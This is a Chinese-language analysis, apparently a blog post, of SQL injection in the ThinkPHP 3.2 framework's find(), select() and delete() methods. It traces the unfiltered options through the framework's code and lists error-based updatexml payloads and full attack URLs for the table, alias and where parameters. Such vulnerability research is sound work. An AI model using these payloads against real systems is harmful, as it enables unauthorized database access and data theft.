# ThinkPHP3.2find(),select(),delete()注入分析

## find()注入

分析第一步，exp列出之无敌开心快乐，个人认为漏洞出现在`_parseOptions`中没有对参数进行过滤

exp:
id[table]=users where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)--
id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

接下来我们以第一个开始我们的调试，在controller当中写入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->find($id);
    }
}
```

接下来开启快乐调试模式M函数返回一个users的模型对象，不必多说分析烂了，下一个进入find方法，我们跟进_parseOptions



发现没啥



回到find函数，跟进select方法



继续跟进buildSelectSql



继续跟进



由于我们的语句瑞明没有其他如where之类的，我们因此只用关心第一个就行了



由于我们传入变量是字符串，在else if分支当中，以，逗号为分隔符分割为数组，对每一个值执行parseKey，方法，我们看看干了什么



嗯，只是去除字符，以及没正则当中关键字时，用反引号包裹，很明显这个是加在数据表名上面的，略过了



最后没有啥过滤，直接返回了



## select注入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->select($id);
    }
}
```

基本上和find注入差不多，不做分析，payload一致

## delete注入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->delete($id);
    }
}
```

这里有点不太一样，而delete()方法的话同样，这里粗略举三个例子，table,alias,where，但使用table和alias的时候，同时还必须保证where不为空



之后我发现我这样居然也可以`?id[table]=users%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1`

最后拼接的sql语句为还是蛮有意思的



在给几个payload吧，分析结束快乐的一天

```
where:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)-- alias:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)-- table:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1
```